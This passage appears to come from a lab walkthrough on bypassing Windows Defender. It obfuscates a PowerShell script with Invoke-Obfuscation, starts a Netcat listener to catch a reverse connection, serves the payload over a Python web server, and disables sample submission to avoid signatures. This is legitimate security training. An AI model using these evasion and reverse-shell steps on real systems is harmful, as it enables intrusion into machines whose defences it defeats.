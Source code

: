 ```
Invoke-Obfuscation\AST> ALL
```

To execute all obfuscation techniques.

```
Invoke-Obfuscation\AST\ALL> 1
```

Save it as /home/kali/Desktop/AVBypass/obfuscated.ps1

It's obfuscated all the PowerShell AST nodes.

Now that we've been able to create a new obfuscated PowerShell script, we can transfer this over to the target system.

We need to host a web server, so that we can download the obfuscated PowerShell script onto the Windows target. We then need to set up a Netcat listener that will listen for any connection from the target. 

```
nc -nvlp 1234
```

```
pwd
/home/kali/Desktop/AVBypass

ls
sudo python3 -m http.server 80
```

Switch over to Windows 10 VM.

Windows Security -> Virus & threat protection -> Virus & threat protection settings -> Manage settings

Real-time protection->On

Cloud-delivered protection->Off

Automatic sample submission->Off

The reason I've disabled automatic sample submission is in the event that I'm testing some obfuscation techniques, I don't want Microsoft to send the virus samples or the code sample, as they will create a signature for it immediately or whenever they get time to do that. I've left real-time protection on. This doesn't mean that it's been disabled. Virus & threat protection settings is Turn on.

```
http://10.10.10.10
```

obfuscated.ps1. Run with PowerShell. And if it works successfully, the PowerShell code that we used should leave the PowerShell window or terminal open or running as long as the execution was successful.

It's working because the PowerShell window is not closed. If it was detected, I would get a notification from Windows Defender, and the PowerShell session would be terminated.

Switch over to Kali Linux VM.
